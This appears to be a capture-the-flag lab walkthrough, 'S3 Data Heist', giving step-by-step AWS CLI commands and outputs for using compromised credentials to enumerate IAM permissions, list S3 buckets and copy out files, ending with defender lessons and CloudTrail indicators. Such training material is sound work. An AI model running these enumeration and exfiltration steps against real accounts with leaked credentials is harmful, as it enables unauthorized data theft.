

# S3 Data Heist - Walkthrough

> **Spoiler Warning**: This document contains the complete solution.

## Attack Path



## Step 1: Identity Confirmation

First, verify who you are with the compromised credentials.

```bash
aws sts get-caller-identity --profile victim
```

Expected output:
```json
{
    "UserId": "AIDAXXXXXXXXXXXXXXXXX",
    "Account": "123456789012",
    "Arn": "arn:aws:iam::123456789012:user/gnawlab/gnawlab-s3heist-user-xxxxxxxx"
}
```

**Key Information:**
- `UserId`: Unique ID of the IAM User
- `Account`: AWS Account ID
- `Arn`: Full ARN (Amazon Resource Name) of the user

Note the username `gnawlab-s3heist-user-xxxxxxxx` from the ARN - you'll need it for the next steps.

---

## Step 2: Permission Enumeration

Now systematically enumerate all permissions available to this user.

### 2.1 List User Inline Policies

Check for inline policies directly attached to the user.

```bash
aws iam list-user-policies \
  --user-name gnawlab-s3heist-user-xxxxxxxx \
  --profile victim
```

Expected output:
```json
{
    "PolicyNames": [
        "gnawlab-s3heist-policy-xxxxxxxx"
    ]
}
```

An inline policy `gnawlab-s3heist-policy-xxxxxxxx` was discovered.

### 2.2 Get Inline Policy Details

Retrieve the actual permissions from the discovered inline policy.

```bash
aws iam get-user-policy \
  --user-name gnawlab-s3heist-user-xxxxxxxx \
  --policy-name gnawlab-s3heist-policy-xxxxxxxx \
  --profile victim
```

Expected output:
```json
{
    "UserName": "gnawlab-s3heist-user-xxxxxxxx",
    "PolicyName": "gnawlab-s3heist-policy-xxxxxxxx",
    "PolicyDocument": {
        "Version": "2012-10-17",
        "Statement": [
            {
                "Sid": "IdentityVerification",
                "Effect": "Allow",
                "Action": ["sts:GetCallerIdentity"],
                "Resource": "*"
            },
            {
                "Sid": "IAMEnumeration",
                "Effect": "Allow",
                "Action": [
                    "iam:GetUser",
                    "iam:ListUserPolicies",
                    "iam:ListAttachedUserPolicies",
                    "iam:GetUserPolicy",
                    "iam:ListGroupsForUser",
                    "iam:ListGroupPolicies",
                    "iam:ListAttachedGroupPolicies",
                    "iam:GetGroupPolicy"
                ],
                "Resource": [
                    "arn:aws:iam::123456789012:user/gnawlab/gnawlab-s3heist-user-xxxxxxxx",
                    "arn:aws:iam::123456789012:group/*"
                ]
            },
            {
                "Sid": "S3BucketEnumeration",
                "Effect": "Allow",
                "Action": ["s3:ListAllMyBuckets"],
                "Resource": "*"
            },
            {
                "Sid": "S3DataAccess",
                "Effect": "Allow",
                "Action": ["s3:ListBucket", "s3:GetObject"],
                "Resource": [
                    "arn:aws:s3:::gnawlab-s3heist-data-xxxxxxxx",
                    "arn:aws:s3:::gnawlab-s3heist-data-xxxxxxxx/*"
                ]
            }
        ]
    }
}
```

**Permission Analysis:**
| Statement | Permissions | Description |
|-----------|-------------|-------------|
| IdentityVerification | `sts:GetCallerIdentity` | Identity verification |
| IAMEnumeration | `iam:*` related | IAM permission enumeration |
| S3BucketEnumeration | `s3:ListAllMyBuckets` | List all buckets |
| S3DataAccess | `s3:ListBucket`, `s3:GetObject` | Access specific bucket |

**Important**: The S3DataAccess statement reveals access to a specific bucket `gnawlab-s3heist-data-xxxxxxxx`.

### 2.3 List Attached Policies

Check for managed policies attached to the user.

```bash
aws iam list-attached-user-policies \
  --user-name gnawlab-s3heist-user-xxxxxxxx \
  --profile victim
```

Expected output:
```json
{
    "AttachedPolicies": []
}
```

No managed policies attached.

### 2.4 Check Group Membership

Check if the user belongs to any groups.

```bash
aws iam list-groups-for-user \
  --user-name gnawlab-s3heist-user-xxxxxxxx \
  --profile victim
```

Expected output:
```json
{
    "Groups": []
}
```

The user doesn't belong to any groups, so group policy enumeration is not needed.

> **Note**: If groups existed, you would use `list-group-policies`, `list-attached-group-policies`, and `get-group-policy` to enumerate group permissions as well.

---

## Step 3: S3 Bucket Enumeration

Based on the permission enumeration, we confirmed S3 access. Let's explore the buckets.

### 3.1 List All Buckets

```bash
aws s3 ls --profile victim
```

Expected output:
```
2026-05-01 04:29:16 gnawlab-s3heist-data-xxxxxxxx
```

> **Note**: Other buckets may exist in the account, but the target is `gnawlab-s3heist-data-xxxxxxxx` as identified in the policy.

### 3.2 List Bucket Contents

```bash
aws s3 ls s3://gnawlab-s3heist-data-xxxxxxxx/ --recursive --profile victim
```

Expected output:
```
2026-05-01 04:29:21        249 README.txt
2026-05-01 04:29:21         39 confidential/flag.txt
2026-05-01 04:29:21        299 data/customers.csv
2026-05-01 04:29:21        363 internal/memo.txt
```

**Discovered Files:**
| Path | Size | Description |
|------|------|-------------|
| `README.txt` | 249 bytes | Bucket documentation |
| `confidential/flag.txt` | 39 bytes | **FLAG file** |
| `data/customers.csv` | 299 bytes | Customer data |
| `internal/memo.txt` | 363 bytes | Internal memo |

---

## Step 4: Data Exfiltration

Exfiltrate the discovered files.

### 4.1 Read the README

```bash
aws s3 cp s3://gnawlab-s3heist-data-xxxxxxxx/README.txt - --profile victim
```

Output:
```
Beaver Rides Inc. - Cloud Storage
==================================

This bucket contains company data.
Authorized personnel only.

Directory Structure:
- /data - Customer information
- /internal - Company memos
- /confidential - Restricted access
```

### 4.2 Exfiltrate Customer Data

```bash
aws s3 cp s3://gnawlab-s3heist-data-xxxxxxxx/data/customers.csv - --profile victim
```

Output:
```csv
id,name,email,ssn,credit_card
1,John Doe,john.doe@example.com,123-45-6789,4111-1111-1111-1111
2,Jane Smith,jane.smith@example.com,987-65-4321,5500-0000-0000-0004
3,Bob Wilson,bob.wilson@example.com,456-78-9012,3400-0000-0000-009
4,Alice Brown,alice.brown@example.com,321-54-9876,6011-0000-0000-0004
```

**Sensitive Data Found**: SSN, credit card numbers, and other PII exposed.

### 4.3 Read Internal Memo

```bash
aws s3 cp s3://gnawlab-s3heist-data-xxxxxxxx/internal/memo.txt - --profile victim
```

Output:
```
INTERNAL MEMO - Beaver Rides Inc.
Date: 2024-01-15
Subject: Q4 Security Audit Results

Team,

Our recent security audit identified several areas for improvement:

1. Credential rotation policy needs enforcement
2. S3 bucket access logging should be enabled
3. IAM policies require least-privilege review

Please address these items by end of Q1.

- Security Team
```

**Irony**: The security issues flagged in this audit are exactly what enabled this attack.

---

## Step 5: Capture the Flag

Finally, retrieve the flag from the confidential directory.

```bash
aws s3 cp s3://gnawlab-s3heist-data-xxxxxxxx/confidential/flag.txt - --profile victim
```

Output:
```
FLAG{s3_bucket_enum_and_exfil_complete}
```

**Congratulations!** You have successfully completed the scenario.

---

## Summary

Attack steps performed in this scenario:

| Step | Action | AWS API |
|------|--------|---------|
| 1 | Identity verification | `sts:GetCallerIdentity` |
| 2 | List inline policies | `iam:ListUserPolicies` |
| 3 | Get policy details | `iam:GetUserPolicy` |
| 4 | Check managed policies | `iam:ListAttachedUserPolicies` |
| 5 | Check group membership | `iam:ListGroupsForUser` |
| 6 | List all buckets | `s3:ListAllMyBuckets` |
| 7 | List bucket contents | `s3:ListBucket` |
| 8 | Exfiltrate data | `s3:GetObject` |

---

## Real-World Lessons

### Attacker Perspective
- Always start with permission enumeration when you have leaked credentials
- IAM policies often reveal hints about accessible resources
- S3 buckets are treasure troves of sensitive data

### Defender Perspective
- **Credential Hygiene**: Never hardcode credentials in source code
- **Least Privilege**: IAM policies should grant minimum necessary permissions
- **S3 Security**: Enable bucket logging and use bucket policies to restrict access
- **Detection**: Monitor CloudTrail for unusual API call patterns

### Detectable CloudTrail Events
```
sts:GetCallerIdentity
iam:ListUserPolicies
iam:GetUserPolicy
iam:ListAttachedUserPolicies
iam:ListGroupsForUser
s3:ListAllMyBuckets
s3:ListBucket
s3:GetObject
```

A sequence of these API calls in rapid succession is a strong indicator of credential compromise and permission enumeration.
